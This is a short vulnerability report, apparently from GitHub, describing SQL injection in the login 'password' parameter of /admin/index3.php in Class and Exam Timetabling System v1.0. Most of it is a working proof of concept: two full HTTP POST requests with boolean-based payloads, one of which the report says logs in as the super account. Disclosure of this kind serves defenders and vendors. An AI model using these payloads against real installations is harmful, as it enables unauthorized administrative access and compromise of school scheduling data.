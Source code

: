 # Class and Exam Timetabling System v1.0 has SQL injection

BUG_Author:muhan

Vulnerability File: /admin/index3.php

POST parameter 'password' exists SQL injection vulnerability

Payload1: username=ADMIN&password=a%27+OR+NOT+666%3D666%23&go=Log+In

```
POST /admin/index3.php HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/index3.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=ADMIN&password=a%27+OR+NOT+666%3D666%23&go=Log+In
```

Login error

![image](https://github.com/anquanclub/picture/blob/main/fail.png)

Payload2: username=ADMIN&password=a%27+OR+NOT+666%3D667%23&go=Log+In

```
POST /admin/index3.php HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/index3.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=ADMIN&password=a%27+OR+NOT+666%3D667%23&go=Log+In
```

The super account is successfully logged in.

![image](https://github.com/anquanclub/picture/blob/main/success.png)
